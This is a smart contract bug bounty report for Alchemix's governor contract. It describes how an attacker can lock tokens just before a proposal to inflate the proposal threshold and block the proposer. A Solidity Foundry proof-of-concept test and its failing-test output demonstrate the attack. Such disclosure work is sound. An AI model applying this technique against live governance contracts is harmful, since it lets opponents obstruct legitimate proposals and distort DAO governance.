 
# "The proposer can be impeded from submitting a proposal by an attacker who inflates the proposalThreshold."

Submitted on Sat May 04 2024 07:33:54 GMT-0400 (Atlantic Standard Time) by @OxG0P1 for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #30685

Report type: Smart Contract

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/AlchemixGovernor.sol

Impacts:
- Manipulation of governance voting result deviating from voted outcome and resulting in a direct change from intended effect of original results

## Description
## Brief/Intro
The `propose` function verifies the minimum votes required for a valid proposal by checking if the number of votes obtained by `_msgSender()` within the last block timestamp is greater than or equal to the current `proposalThreshold()` value. However, it is susceptible to exploitation by an attacker who can manipulate and inflate the `proposalThreshold()` value, thereby preventing any user from successfully proposing a valid proposal.


## Vulnerability Details
In the `propose` function, there exists a verification mechanism ensuring that the `msg.sender` possesses adequate quorum votes to initiate a proposal, denoted by the condition `getVotes(_msgSender(), block.timestamp - 1) >= proposalThreshold()`. Here, the `getVotes()` function retrieves the number of votes at `block.timestamp - 1`, while the `proposalThreshold()` is calculated as follows: `(token.getPastTotalSupply(block.timestamp) * proposalNumerator) / PROPOSAL_DENOMINATOR`. Notably, `getPastTotalSupply()` fetches the `totalSupply` at the specified `block.timestamp`.

Consider the following hypothetical scenario:
1. Bob intends to propose a proposal.
2. At timestamp `x`, Bob garners 110 votes.
3. At timestamp `x + 1`, the actual `proposalThreshold` is set at 100 votes.
4. However, Alice opposes Bob's proposal.
5. Alice manipulates the `proposalThreshold` by either locking or depositing assets into an already locked position, thereby ensuring that `getVotes(bob, x) < proposalThreshold()`. Consequently, Bob's proposal transaction fails, leading to a revert.

This scenario underscores a vulnerability where an adversary, in this case, Alice, exploits the system by artificially inflating the `proposalThreshold`, effectively obstructing legitimate proposals such as Bob's from succeeding.

## Impact Details
Opposing an user from proposing by manipulating the `totalSupply`

## References
https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/AlchemixGovernor.sol#L45-L47
https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/governance/L2Governor.sol#L309-L312

        
## Proof of concept
## Proof of Concept
`Test :`
```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity ^0.8.15;

import "./BaseTest.sol";
import "forge-std/console.sol";

contract AlchemixGovernorTest is BaseTest {
    uint256 tokenId1;
    uint256 tokenId2;
    uint256 tokenId3;

    function setUp() public {
        setupContracts(block.timestamp);

        
        tokenId1 = createVeAlcx(admin, TOKEN_100K / 4, MAXTIME, false); //Assign Admin with some voting power at block.timestamp

    

        
        hevm.warp(block.timestamp + 1); // Timestamp increment

        assertEq(governor.timelock(), address(timelockExecutor));
    }

    function craftTestProposal()
        internal
        view
        returns (address[] memory targets, uint256[] memory values, bytes[] memory calldatas, string memory description)
    {
        targets = new address[](1);
        targets[0] = address(voter);
        values = new uint256[](1);
        values[0] = 0;
        calldatas = new bytes[](1);
        calldatas[0] = abi.encodeWithSelector(voter.whitelist.selector, usdc);
        description = "Whitelist USDC";
    }




    function testPropose() public {
        address beef2 = address(6);
        address beef3 = address(7);
        address beef4 = address(8);
        address beef5 = address(9);
        address beef6 = address(10);
        address beef7 = address(11);
        createVeAlcx(beef, TOKEN_100K, MAXTIME, false);
        createVeAlcx(beef2, TOKEN_100K, MAXTIME, false);
        createVeAlcx(beef3, TOKEN_100K, MAXTIME, false);
        createVeAlcx(beef4, TOKEN_100K, MAXTIME, false);
        createVeAlcx(beef4, TOKEN_100K, MAXTIME, false);
        createVeAlcx(beef4, TOKEN_100K, MAXTIME, false);
        createVeAlcx(beef4, TOKEN_100K, MAXTIME, false);
        createVeAlcx(beef4, TOKEN_100K, MAXTIME, false);
        createVeAlcx(beef4, TOKEN_100K, MAXTIME, false); //Locking tokens so that the threshold increses

        ThreshHold = governor.proposalThreshold();
        console.log("TOTAL AT THIS2", ThreshHold);
        hevm.startPrank(admin);

        uint256 adminVotes = governor.getVotes(admin, block.timestamp - 1);
        uint256 pastVotes = veALCX.getPastVotes(admin, block.timestamp - 1);
        console.log("ADMIN VOTES", adminVotes);
        console.log("PAST VOTES", pastVotes);
        assertEq(adminVotes, pastVotes, "governor and veALCX calculated different votes");

        (address[] memory t, uint256[] memory v, bytes[] memory c, string memory d) = craftTestProposal();
        governor.propose(t, v, c, d, MAINNET); //Admin proposing 

        hevm.stopPrank();
    }
}
```

`Result :`

```solidity
Ran 2 tests for src/test/AlchemixGovernor.t.sol:AlchemixGovernorTest
[FAIL. Reason: revert: Governor: veALCX power below proposal threshold] testPropose() (gas: 7860929)
[PASS] testProposeFail() (gas: 1750584)
Suite result: FAILED. 1 passed; 1 failed; 0 skipped; finished in 103.69s (14.80s CPU time)

Ran 1 test suite in 105.70s (103.69s CPU time): 1 tests passed, 1 failed, 0 skipped (2 total tests)

Failing tests:
Encountered 1 failing test in src/test/AlchemixGovernor.t.sol:AlchemixGovernorTest
[FAIL. Reason: revert: Governor: veALCX power below proposal threshold] testPropose() (gas: 7860929)
```